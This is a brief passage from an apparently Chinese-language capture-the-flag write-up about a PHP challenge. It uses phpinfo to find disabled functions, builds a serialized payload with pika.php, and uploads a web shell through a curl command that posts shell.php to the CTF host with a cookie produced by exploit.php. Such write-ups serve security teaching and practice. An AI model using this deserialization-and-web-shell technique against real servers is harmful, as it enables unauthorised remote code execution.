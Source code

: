 ![Untitled%201.png](./img/Untitled%201.png)

一開可以先傳入 phpinfo 檢查看看有哪些不能使用的函數，而序列化的部份可以透過 `pika.php` 做修改即可，這邊上傳一個 web shell ，而檔名會回顯到 cookie

```bash
	curl 'http://ctf.adl.tw:12003/upload.php' -X POST -F 'my_file=@./shell.php' -vv --cookie 'sth='$(php exploit.php) | grep 'Set-Co'
```

![Untitled%202.png](./img/Untitled%202.png)
